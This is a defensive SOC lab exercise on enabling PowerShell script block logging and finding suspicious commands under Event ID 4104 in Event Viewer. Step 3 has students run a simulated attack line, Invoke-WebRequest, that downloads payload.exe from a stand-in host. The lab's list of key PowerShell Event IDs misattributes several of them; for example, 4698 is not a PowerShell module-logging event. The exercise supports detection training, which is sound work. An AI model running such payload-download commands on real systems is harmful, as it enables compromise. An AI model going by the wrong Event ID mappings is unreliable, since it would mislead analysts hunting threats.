 # **Lab#3: Log Analysis Basics: Windows PowerShell Logs**

## **Objective:**
The objective of this lab is to introduce students to **Windows PowerShell Logs** and help them understand how to analyze PowerShell-related events. Students will learn how to explore and analyze PowerShell logs to detect suspicious or malicious PowerShell commands that could indicate an attack or compromise.

---

## **Lab Setup**
### **Requirements:**
- **System:** Windows 10/11 or Windows Server 2019/2022
- **Tools:**
  - **Windows Event Viewer** (pre-installed)
  - **PowerShell (Pre-installed on Windows)**
  - **Administrative Privileges** (required for enabling logs)

---

## **Preparation:**
In this lab, you will explore and analyze **Windows PowerShell Logs** in the **Event Viewer**. These logs record events related to PowerShell execution, such as the running of scripts, command usage, and potential malicious activities.

### **On Windows:**
1. Press `Win + R` and type `eventvwr.msc` to open the **Event Viewer**.
2. In the **Event Viewer**, expand the **Applications and Services Logs** section and navigate to:
`Microsoft → Windows → PowerShell → Operational`

3. You should now be able to see logs related to PowerShell activities.

---

## **What are Windows PowerShell Logs?**
PowerShell logs contain information about PowerShell script executions, including details about the commands that were run, the processes that invoked them, and the user who executed them. These logs can be used to detect potential misuse of PowerShell, including post-exploitation techniques often used by attackers.

### **Key PowerShell Logs to Monitor:**
- **Event ID 4104**: Script block logging, capturing the PowerShell commands executed.
- **Event ID 4103**: Transcription logs for all PowerShell sessions.
- **Event ID 4698**: PowerShell Module Logging for the execution of specific modules.
- **Event ID 4101**: Execution of PowerShell commands through command-line arguments.

---

## **Lab Task: Explore and Analyze Windows PowerShell Logs**

### **Step 1: Enable PowerShell Script Block Logging**
Before proceeding, make sure PowerShell script block logging is enabled on your system:

1. Press `Win + R`, type `gpedit.msc`, and press Enter to open the **Group Policy Editor**.
2. Navigate to:
`Computer Configuration > Administrative Templates > Windows Components > Windows PowerShell`
3. Turn on **Module Logging**, **Script Block Logging**, and **Script Execution**.
4. Apply the settings and close the Group Policy Editor.

### **Step 2: Generate PowerShell Logs**
1. Open **PowerShell** as Administrator.
2. Run the following PowerShell command to generate a log entry:
```powershell
Get-LocalUser | Select-Object Name, Enabled
```
This command will list the local users on your system, which attackers might use to gather information during post-exploitation.

3. After running the command, go back to Event Viewer and navigate to:

`Applications and Services Logs → Microsoft → Windows → PowerShell → Operational`

4. Look for Event ID 4104 in the logs (this will show script block logging for the PowerShell command you executed).
5. Take a screenshot of the event details, including:
 - PowerShell command that was executed
 - User who ran the command
 - Timestamp of the execution

### **Step 3: Simulate Malicious PowerShell Command**
1. Open PowerShell and run the following suspicious command that might be used by an attacker:

```
Invoke-WebRequest -Uri "http://maliciouswebsite.com/payload.exe" -OutFile "C:\temp\payload.exe"`
```
This command simulates downloading a malicious payload from a remote server.    
2. Go back to Event Viewer and filter the PowerShell logs for Event ID 4104.     
3. Check for any suspicious activity or abnormal PowerShell command execution, specifically focusing on the `Invoke-WebRequest` or any network-based PowerShell command.    
4. Take a screenshot of the event details.     

### **Step 4: Analyze Suspicious PowerShell Logs**
- Investigate any PowerShell events that show script execution from suspicious sources or unexpected locations.
- Identify the user executing the command and any related system activity (e.g., downloading files, executing binaries).
- Review the Event ID 4104 logs and check for patterns such as unusual script execution or command-line arguments that could indicate malicious behavior.


## Conclusion:
- Understanding PowerShell Logs: PowerShell logs are crucial for detecting the misuse of PowerShell by attackers. By analyzing PowerShell event logs, you can identify suspicious commands and potential security threats.
- SOC Analyst Role: As a SOC Analyst, reviewing these logs is vital for detecting post-exploitation activities, including malicious PowerShell commands often used for lateral movement, credential dumping, and payload execution.
- Threat Detection: Monitoring PowerShell logs can help identify abnormal activity early, allowing for faster detection and response to potential threats.

## Submission:
- Event ID 4104 (PowerShell Script Execution): Submit a screenshot showing a PowerShell script execution event from the logs.
- Malicious PowerShell Command: Submit a screenshot showing the execution of a suspicious or malicious PowerShell command.
